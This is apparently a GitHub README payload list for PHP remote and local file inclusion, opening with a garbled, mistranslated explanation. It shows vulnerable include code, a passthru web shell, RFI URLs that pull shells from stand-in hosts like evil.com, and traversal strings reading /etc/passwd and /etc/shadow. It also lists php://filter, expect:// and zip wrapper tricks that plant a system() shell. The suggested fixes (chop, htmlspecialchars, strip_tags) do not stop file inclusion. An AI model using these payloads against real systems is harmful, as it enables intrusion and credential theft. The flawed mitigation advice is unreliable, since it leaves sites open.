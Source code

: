 # RFI/LFI

<p align="center">
<img src="https://github.com/payloadbox/rfi-lfi-payload-list/blob/master/img/rfi-lfi.jpeg">
</p>

<p align="center">
  <img src="https://cdn.rawgit.com/sindresorhus/awesome/d7305f38d29fed78fa85652e3a63e154dd8e8829/media/badge.svg"> <img src="https://img.shields.io/github/stars/payloadbox/rfi-lfi-payload-list?style=social"> <img src="https://img.shields.io/github/forks/payloadbox/rfi-lfi-payload-list?style=social"> <img src="https://img.shields.io/github/repo-size/payloadbox/payloadbox/rfi-lfi-payload-list"> <img src="https://img.shields.io/github/license/payloadbox/rfi-lfi-payload-list"> <img src="https://img.shields.io/github/issues/detail/author//payloadbox/rfi-lfi-payload-list/1">
</p>

## Explicación

As with many exploits, remote and local file inclusions are only a problem at the end of the encoding. Of course, it takes a second person to have it. Now, this article will hopefully give you an idea of protecting your website and most importantly your code from a file iclusion exploit. I’ll give example codes in PHP format.

Let’s look at some of the code that makes RFI / LFI exploits possible.

```
<a href=index.php?page=file1.php> Files </a>
<? Php
$ page = $ _GET [page];
include ($ page);
?>
```

Obviously this should not be used. The $ page entry is not fully cleared. $ page input is directed directly to the damn web page, which is a big “NO”. Always remove any input passing through the browser. When the user clicks on “File” to visit “files.php” when he visits the web page, something will appear like this.

```
http: //localhost/index.php? page = files.php
```

Now, if no one has cleared the input in the $ page variable, we can have it pointed to what we want. If hosted on a unix / linux server, we can display the password as configuration files for shaded or uncleaned variable input.

Viewing files on the server is a “Local File Inclusion” or LFI exploit. This is no worse than an RFI exploit.

```
http: //localhost/index.php? page = .. / .. / .. / .. / .. / .. / etc / passwd
```

The code will probably return to / etc / passwd. Now let’s look at the RFI aspect of this exploit. Let’s get some of the codes we’ve taken before.

```
<a href=index.php?page=file1.php> Files </a>
<? Php
$ page = $ _GET [page];
include ($ page);
?>
```
Now suppose we write something like …

```
http: //localhost/index.php? page = http: //google.com/
```

Probably where the $ page variable was originally placed on the page, we get the google.com homepage. This is where the codder 
can be hurt. We all know what c99 (shell) can do, and if coders are careful, they may be included in the page, allowing users to surf through sensitive files and contacts at the appropriate time. Let’s look at something simpler that can happen on a web page. The faster and more dirty use of RFI exploitation is to your advantage. Now, create a file named “test.php” and put the following code in it and save it.

```

<? Php
passthru ($ _ GET [cmd]);
?>

```

Now this file is something you can use to your advantage to include it on a page with RFI exploitation. The passthru () command in PHP is very evil, and many hosts call it “out of service for security reasons”. With this code in test.php, we can send a request to the web page, including file inclusion exploit.

```
http: //localhost/index.php? page = http: //someevilhost.com/test.php
```

When the code makes a $ _GET request, we must provide a command to pass to passthru (). We can do something like this.

```
http: //localhost/index.php? page = http: //someevilhost.com/test.php? cmd = cat / etc / passwd
```

This unix machine will also extract the file / etc / passwd using the cat command. Now we know how to exploit RFI exploit, now we need to know how to hold it and make it impossible for anyone to execute the command, and how to include remote pages on your server. First, we can disable passthru (). But anything on your site can use it again (hopefully not). But this is the only thing you can do. I suggest cleaning the inputs as I said before. Now, instead of just passing variables directly to the page, we can use a few PHP-proposed structures within functions. Initially, chop () from perl was adapted to PHP, which removes whitespaces from an array. We can use it like this.
```
<a href=index.php?page=file1.php> Files </a>
<? Php
$ page = chop ($ _ GET [page]);
include ($ page);
?>
```

There are many functions that can clear string. htmlspecialchars ()
htmlentities (), stripslashes () and more. In terms of confusion, I prefer to use my own functions. We can do a function in PHP that can clear everything for you, here I’ve prepared something easy and quick about this course for you.

```
<? Php
function cleanAll ($ input) {
$ input = strip_tags ($ input);
$ input = htmlspecialchars ($ input);
return ($ input);
}
?>
```

Now I hope you can see what’s going on inside this function, so you can add yours. I would suggest using the str_replace () function and there are a lot of other functions to clear them. Be considerate and stop the RFI & LFI exploit frenzy!

## Payloads

#### [+] Interesting files to check out :

```
/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdline
```

#### [+] Basic LFI (null byte, double encoding and other tricks) :

```
http://example.com/index.php?page=etc/passwd
http://example.com/index.php?page=etc/passwd%00
http://example.com/index.php?page=../../etc/passwd
http://example.com/index.php?page=%252e%252e%252f
http://example.com/index.php?page=....//....//etc/passwd
```

#### [+] Basic RFI (null byte, double encoding and other tricks) :

```
http://example.com/index.php?page=http://evil.com/shell.txt
http://example.com/index.php?page=http://evil.com/shell.txt%00
http://example.com/index.php?page=http:%252f%252fevil.com%252fshell.txt
```

#### [+] LFI / RFI Wrappers :

> LFI Wrapper rot13 and base64 - php://filter case insensitive.

```
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php

Can be chained with a compression wrapper.
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
```
> LFI Conversión Codificación de caracteres

+ Allows you to view archived content on the same web page
```
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
```

> LFI Wrapper ZIP :

```
echo "</pre><?php system($_GET['cmd']); ?></pre>" > payload.php;  
zip payload.zip payload.php;   
mv payload.zip shell.jpg;    
rm payload.php   

http://example.com/index.php?page=zip://shell.jpg%23payload.php
```

> RFI Wrapper DATA with "" payload :

```
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
```

> **RFI Wrapper EXPECT** :

+ Allow to excute commands
```
http://example.com/index.php?page=php:expect://id
http://example.com/index.php?page=php:expect://ls
```

#### [+] XSS via RFI/LFI with "" payload :

```
http://example.com/index.php?page=data:application/x-httpd-php;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+
```

#### [+] LFI to RCE via /proc/*/fd :
 
 1. Upload a lot of shells (for example : 100)
 2. Include http://example.com/index.php?page=/proc/$PID/fd/$FD with $PID = PID of the process (can be bruteforced) and $FD the filedescriptor (can be bruteforced too)
 
#### [+] LFI to RCE via Upload :

```
http://example.com/index.php?page=path/to/uploaded/file.png
```

### Servicios / Versiones

#### [+] PHP 5.2.17
```
/etc/passwd\0
/etc/passwd/.
```

#### References :

👉 [Testing for Local File Inclusion](https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion)

👉 [Wikipedia](www.wikipedia.org/wiki/Local_File_Inclusion)

👉 [Remote File Inclusion](http://projects.webappsec.org/w/page/13246955/Remote%20File%20Inclusion)

👉 [Wikipedia: "Remote File Inclusion"](http://en.wikipedia.org/wiki/Remote_File_Inclusion)

👉 [PHP File Inclusion](https://www.owasp.org/index.php/PHP_File_Inclusion)
